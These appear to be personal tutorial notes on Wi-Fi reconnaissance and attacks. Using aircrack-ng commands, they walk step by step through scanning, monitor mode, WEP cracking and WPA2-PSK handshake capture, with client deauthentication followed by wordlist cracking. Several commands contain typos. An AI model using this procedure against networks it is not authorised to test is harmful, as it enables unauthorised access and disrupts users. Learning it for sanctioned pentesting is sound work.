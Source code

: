 # chapter 1: recon
# tooling
	- rfkill: Tool for enabling and disabling wireless and bluetooth devices.
	- iwlist: tool for scan access point
	- wpa_supplicant: tool for connect to access point trought the terminal
	- wpa_passphrase: tool for creating config file for wpa_supplicant
	- ifconfig: manage network iface
	- iwconfig: similar to ifconfig but only for wireless
	- network-manager: service that manage all iface connection. to scan well the air, we need to kill it ``bash  sudo service network-namager stop ``  

1: kill the netwoork-manager to avoid trouble
	$ sudo service network-manager stop
2: scan the air to see access points
```bash
	$ sudo iwlist wlan0 scan
	$ sudo iwlist wlan0 scan | grep ESSID # show only access point name
	$ sudo iwlist wlan0 scan | grep Address # show only the mac address
	$ sudo iwlist wlan0 scan | grep -i --color "ESSID\|Address" # get AP name and Mac address
```	
# information that we can get by scanning AP are:
 	- ESSID: access point name
	- Address: Routeur Mac Address
	- BSSID: access point mac address
	- encrypt type: type of encryption(WEP, WPA, WPA2, WPS)
	- channel: on which the ap is operating

#note: ESSID mean Extended basic Service Set Identifier also call AP name

3: connect to wifi via a terminal
 	- create configuration file
	$ wpa_passphrase [essid] [passphrase] > wpa.conf
	- now connect to the wifi
	$ wpa_suppliciant -D nl80211 -i wlan0 -c wpa.conf	
	- fast way to do that is by using iwconfig
	$ sudo iwconfig iface essid the_name channel N

# chapter 2: attack AP
	
	# differente attack
		- Jam the AP
		- disconnect legitimate client 
		- crack the ap secret
		- create fake AP and make clients connect to it
		- man in Middle
		- arp spoofing
	# encryption type:
		- WEP: Wireless Equivalent Privacy (the all encryption with rc4 algo)
		- WPA: Wifi Protected Acess 2003 year ( TKIP encryption)
		- WPA2: Wifi Protected Acess 2004 year v2(AES encryption)

	# tools
#  Aircrack-ng:
 aircrack-ng is a suit of tool to pentest wireless access point. it contain:
	- airmon-ng
	- airodom-ng
	- aireplay-ng
	- airbase-ng
	- airolib-ng
	- aircrack-ng

# monitor mode
	by default the NIC(Network Interface Card) is in managed mod in order to receive or send packet.
to analyse the trafic of an AP , we need to put your NIC in monitor mod. so we can see all trafic.
in order to do that, we can use airmon-ng
```bash 
	$ sudo airmon-ng check wlan0 # check the mode of the iface
	$ sudo airmon-ng check kill # kill network services. important
	$ sudo airmon-ng start wlan0 # start monitor mode
	$ sudo airmon-ng stop wlan0 # stop monitor mode
	$ iwconf wlan0   # get iface information information 
```

after putting the NIC in monitor mode, you will hae an other iface 'wlan0mon'

# snif the air trafic of wlan0mon iface with airodump
	- sniff the trafic
	- dump the packets into .pcap file
	- get lot of informations
```bash
	$ sudo airodump-ng wlan0mon
```
so we get all the trafig
we can save the trafic with -w switch

# scan trafic for one access point
```bash
	$ sudo airodump-ng --bssid ap_mac --essid ap_name -w file
```
# crack WEP AP
	web is unencrypted and outdate protection.
	nowdays, we will have matter finding wep router. still , let learn the old method
make sur: your NIC is in monitor mod.
in the first terminal:
```bash
	$ sudo airodump-ng --bssid ap_mac -c channel -w capture.pcap
```
in the second terminal:
```bash
 	$ sudo aircrack-ng capture.pcap
```
wait aircrack done the job
# NOTE: more you capture packte(IVs), fast the cracking must be

# WPA-PSK(Wifi Protected Access - Pre-Shared Key)   cracking =:)
	unlike wep, wpa use 4 handshak as  authentification process
# how WPA-PSK 4 handhake work:
	router ==== send Rnonce===> client
	
	client ==== send Cnonce + MIC==> router
	
	router ==== send GTK + MIC ===> client
	
	client ==== Send ACK    =====> router 
	
Rnonce = Routeur nonce
Cnonce = Client nonce
ACK: acknowlgment
GTK: Group Temporal Key
MIC: Message integrity Code 

#step to crack wpa2-psk
- setup nic in monitor mode with airdom-ng or other tool
- get AP bssid, ssid, channel, client bssid
- capture to start capture the traffic with airodump-ng or other tool and save it to a file
- use aireplay-ng to deauthentificate/disconnect one or many clients ``bash $ sudo aireplay-ng --deauth N  -a router_mac -c client_mac  wlan0mon ``
- wait the client to connect
- get  the 4 handhask between routeur and one client
- now that you have the 4 handshak, we can use aircrack-ng and your good dictionnary to crack the password
# the success depend on your password list
``bash  $ sudo aircrack-ng -w wordlist pcap_file
``
